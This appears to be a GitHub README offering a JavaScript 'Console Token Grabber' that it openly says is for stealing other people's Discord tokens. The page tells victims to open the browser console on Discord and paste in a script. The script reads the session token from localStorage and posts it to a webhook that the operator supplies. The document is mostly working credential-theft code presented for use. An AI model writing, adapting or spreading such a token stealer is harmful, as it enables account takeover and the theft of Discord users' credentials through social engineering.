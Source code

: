 ## 🔐 Basic Console Token Grabber
• **It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

## 🔐 How to use

• Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'YOUR **WEBHOOK**'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Console Stealer",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New Log!",
        embeds: [{
            color: "#8800ff",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());```


